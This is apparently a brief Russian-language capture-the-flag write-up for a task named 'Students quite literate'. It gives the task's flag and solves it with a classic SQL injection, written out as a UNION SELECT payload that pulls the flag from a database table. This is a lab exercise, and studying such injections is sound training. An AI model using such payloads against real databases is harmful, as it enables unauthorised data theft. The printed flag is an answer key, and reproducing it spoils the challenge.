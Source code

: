 ## Students quite literate
В этом описании для вас не будет полезной информации, просто решите этот таск.  
<small>Описание вообще кто-то читает?</small> 
[Ссылка]

## Флаг
TeacherCTF{n0_eDucation_syst3m_1s_flawle55}

## Решение
Классическая sql инъекция. Получить флаг можно сделав запрос
eweweewwe' UNION SELECT flag,flag,flag,flag,flag,flag,flag,flag,flag,flag,flag,flag,flag,flag,flag,flag,flag,flag,flag,flag,flag,flag FROM flag -- 